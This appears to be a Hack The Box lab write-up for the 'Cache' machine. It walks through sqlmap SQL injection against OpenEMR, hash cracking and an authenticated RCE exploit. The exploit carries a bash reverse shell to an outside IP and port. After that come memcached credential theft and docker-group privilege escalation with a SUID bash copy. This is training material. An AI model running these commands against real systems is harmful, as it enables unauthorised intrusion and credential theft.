

# [Cache](https://app.hackthebox.com/machines/cache)

```bash
nmap -p- --min-rate 10000 10.10.10.188 -Pn 
```


After detection of open ports, let's do greater nmap scan for these open ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.188 -Pn 
```


I see some stuff on web application that's interesting for me.


It means that there can be another application.(Hospital Management System)

That's why I modified '/etc/hosts' file by adding `cache.htb` and `hms.htb` domain names.


I opened application and it is 'OpenEMR' CMS system. I browsed `/portal` endpoint


Then, I find `.pdf` file for this CMS system, let's do SQL Injection attack which is `error-based`.


Let's save this request file as `.req` file and attack via `sqlmap` tool.

```bash
sqlmap -r error.req --level 5 --risk 3 --technique "E"
```


Let's enumerate databases by adding `--dbs` option.

Enumerate tables of specific database `-D openemr --tables`.


I select table name called **'users_secure'**, let's add to `sqlmap` cmdlet by adding these options `-T users_secure --dump`


Final SQLMAP cmdlet.
```bash
sqlmap -r error.req --level 5 --risk 3 --technique "E" -D 'openemr' -T 'users_secure' --dump
```


Now, it's time to crack this hash via `hashcat` tool.
```bash
hashcat -m 3200 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


I find authenticated RCE exploit from this [repository](https://github.com/musyoka101/OpenEMR-5.0.1-Remote-Code-execution-Vulnerability-Exploit?tab=readme-ov-file)

Let's use this exploit (45161).

openemr_admin: xxxxxx


```bash
python2 45161.py -u openemr_admin -p xxxxxx -c 'bash -c "bash -i >& /dev/tcp/10.10.14.5/1337 0>&1"' http://hms.htb 
```


I got reverse shell from port (1337).


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


I got password of `ash` user on endpoint `/jquery` 's directory for file called **'functionality.js'**.


ash: H@v3_fun


user.txt




While I run `netstat -tnpl` command see that port `11211` is open.


That's belong to '**memchaced**', let's connect here via `telnet`.
```bash
telnet 127.0.0.1 11211
```

I got credentials from here `get user` and `get passwd`.


luffy: 0n3_p1ec3


I just `ssh` into machine via this credentials.

I run `id` command for privilege escalation to know user `luffy`.


`docker` group can be exploited , also I found predefined docker image via `docker image ls` command.


I just looked at exploit on [Gtfobins](https://gtfobins.github.io/gtfobins/docker/#shell).


That's `Ubuntu` image, let's run this to gain root shell
```bash
docker run -v /:/mnt -i -t ubuntu bash
```


Reminder! We can gain root shell by copying `/bin/bash` then give `SUID` privilege and run via `luffy user`.

```bash
cp bin/bash home/luffy/dr4ks
chmod 4777 home/luffy/dr4ks
exit # to get luffy user
./dr4ks -p # to gain shell
```

root.txt

